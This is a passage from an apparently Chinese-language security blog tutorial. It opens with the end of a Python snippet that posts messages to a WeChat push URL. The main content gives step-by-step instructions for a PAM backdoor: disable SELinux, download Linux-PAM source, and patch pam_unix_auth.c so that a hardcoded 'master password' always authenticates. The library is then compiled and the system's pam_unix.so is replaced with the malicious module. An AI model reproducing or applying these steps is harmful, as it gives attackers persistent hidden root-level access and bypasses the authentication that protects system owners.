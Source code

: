 ```python
    params={
        'text':title,
        'desp':msg
    }
    rr = requests.post(urlWechat,data = params)

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=8443)
```

### PAM后门 万能密码

centos需要关闭selinux，临时关闭`setenforce 0`。永久关闭需要修改`/etc/selinux/config`，将其中SELINUX设置为disabled。

#### 下载对应PAM版本的

下载对应源码:http://www.linux-pam.org/library/

```bas
wget http://www.linux-pam.org/library/Linux-PAM-1.1.8.tar.gz
tar zxvf Linux-PAM-1.1.8.tar.gz
```

安装gcc编译器和flex库

```bash
yum install gcc flex flex-devel -y
```

ubuntu系统同理



修改`Linux-PAM-1.1.8/modules/pam_unix/pam_unix_auth.c`源码实现自定义密码认证



![](https://blog.ryzezr.com/usr/uploads/2021/05/1034017245.png)

```bash
/* verify the password of this user */
retval = _unix_verify_password(pamh, name, p, ctrl);
if(strcmp("wannengmima",p)==0){return PAM_SUCCESS;}
name = p = NULL;
```

编译成so动态链接库文件

```bash
cd Linux-PAM-1.1.8
./configure --prefix=/user --exec-prefix=/usr --localstatedir=/var --sysconfdir=/etc --disable-selinux --with-libiconv-prefix=/usr
make
```

生成的恶意认证so路径在`./modules/pam_unix/.libs/pam_unix.so`。用它来替换系统自带的pam_unix.so。

因为系统不同位数不同，pam_unix.so的路径也不一样，尽量用find找一下。
